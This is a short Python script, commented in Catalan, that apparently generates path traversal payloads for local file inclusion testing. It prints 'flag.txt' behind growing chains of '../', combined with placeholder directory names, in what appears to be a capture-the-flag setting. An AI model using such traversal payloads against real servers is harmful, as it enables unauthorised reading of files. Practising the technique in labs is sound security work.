 # LFI-custom


#python 3 

    dot = ""
    # directoris que vull, seran substiuits per un arxiu extern
    dic = ["directori1", "directori2", "directori3", "directori4", "directori5", "directori6", "directori7", "directori8"]
    #per que faci fins al final de la llista
    num1 = (len(dic)) - 1
    txt = "flag.txt"
    # bucle for i quantes vegades vull que es repateixi
    for i in range(10):
        #ens servira per indicar quina paraula de la llista dic volem agafar
        num = 0
        flag = dot + txt 
        print (flag)
        #afegim /.. cada vegada que passi.
        dot = dot + "../"
    
        #fem el bucle while per ampliar el numero que ha de buscar la llista 
        # significa que sempre que el valor que trobem dins num sigui més petit que num1 segeixi.
        while num <=num1:
            dic1 = dic[num]
            dots = dot + str(dic1) + "/" + txt
            print (dots)
            num = num + 1
